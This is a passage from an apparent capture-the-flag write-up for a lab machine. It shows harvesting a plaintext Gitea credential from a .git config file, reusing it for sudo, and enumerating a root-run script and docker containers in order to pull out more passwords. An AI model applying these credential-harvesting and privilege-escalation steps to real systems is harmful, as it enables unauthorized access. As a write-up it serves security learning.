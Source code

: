 There was a git repo there, and I tried to view the logs but found nothing. Instead, within the directory there were some credentials:

```
svc@busqueda:/var/www/app/.git$ cat config
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
[remote "origin"]
        url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
        fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
        remote = origin
        merge = refs/heads/main
```

We can attempt a password reuse on the `svc` user to check the `sudo` privileges:

```
svc@busqueda:/var/www/app/.git$ sudo -l
[sudo] password for svc: 
Matching Defaults entries for svc on busqueda:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User svc may run the following commands on busqueda:
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *
```

Cool. We can't read the file, but we can see the options we have:

```
svc@busqueda:/var/www/app/.git$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py *
Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

     docker-ps     : List running docker containers
     docker-inspect : Inpect a certain docker container
     full-checkup  : Run a full system checkup
```

Running the `docker-ps` option, we can see the other containers within the machine:

```
svc@busqueda:/var/www/app/.git$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps
CONTAINER ID   IMAGE                COMMAND                  CREATED        STATUS       PORTS                                             NAMES
960873171e2e   gitea/gitea:latest   "/usr/bin/entrypoint…"   3 months ago   Up 2 hours   127.0.0.1:3000->3000/tcp, 127.0.0.1:222->22/tcp   gitea
f84a6b33fb5a   mysql:8              "docker-entrypoint.s…"   3 months ago   Up 2 hours   127.0.0.1:3306->3306/tcp, 33060/tcp               mysql_db
```

Based on docker documentation, we would have to specify a format that we want to inspect. I `{{.Config}}` for this and got a few passwords out:

